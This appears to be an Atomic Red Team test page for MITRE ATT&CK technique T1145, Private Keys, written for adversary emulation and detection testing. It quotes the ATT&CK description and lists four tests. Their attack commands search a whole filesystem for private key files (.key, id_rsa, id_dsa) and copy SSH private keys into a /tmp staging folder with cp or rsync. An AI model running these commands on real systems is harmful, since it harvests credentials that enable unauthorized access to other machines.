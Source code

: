 # T1145 - Private Keys
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1145)
<blockquote>Private cryptographic keys and certificates are used for authentication, encryption/decryption, and digital signatures. (Citation: Wikipedia Public Key Crypto)

Adversaries may gather private keys from compromised systems for use in authenticating to [Remote Services](https://attack.mitre.org/techniques/T1021) like SSH or for use in decrypting other collected files such as email. Common key and certificate file extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. Adversaries may also look in common key directories, such as <code>~/.ssh</code> for SSH keys on * nix-based systems or <code>C:\Users\(username)\.ssh\</code> on Windows.

Private keys should require a password or passphrase for operation, so an adversary may also use [Input Capture](https://attack.mitre.org/techniques/T1056) for keylogging or attempt to [Brute Force](https://attack.mitre.org/techniques/T1110) the passphrase off-line.

Adversary tools have been discovered that search compromised systems for file extensions relating to cryptographic keys and certificates. (Citation: Kaspersky Careto) (Citation: Palo Alto Prince of Persia)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Private Keys](#atomic-test-1---private-keys)

- [Atomic Test #2 - Discover Private SSH Keys](#atomic-test-2---discover-private-ssh-keys)

- [Atomic Test #3 - Copy Private SSH Keys with CP](#atomic-test-3---copy-private-ssh-keys-with-cp)

- [Atomic Test #4 - Copy Private SSH Keys with rsync](#atomic-test-4---copy-private-ssh-keys-with-rsync)


<br/>

## Atomic Test #1 - Private Keys
Find private keys on the Windows file system.
File extensions include: .key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```

#### Cleanup Commands:
```
del c:\Windows\cert.key >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Discover Private SSH Keys
Discover private SSH keys on a macOS or Linux system.

**Supported Platforms:** macOS, Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Output file containing locations of SSH key files | path | /tmp/keyfile_locations.txt|


#### Attack Commands: Run with `sh`! 
```
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP
Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 
```
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```






<br/>
<br/>

## Atomic Test #4 - Copy Private SSH Keys with rsync
Copy private SSH keys on a Linux or macOS system to a staging folder using the `rsync` command.

**Supported Platforms:** macOS, Linux


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 
```
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```






<br/>
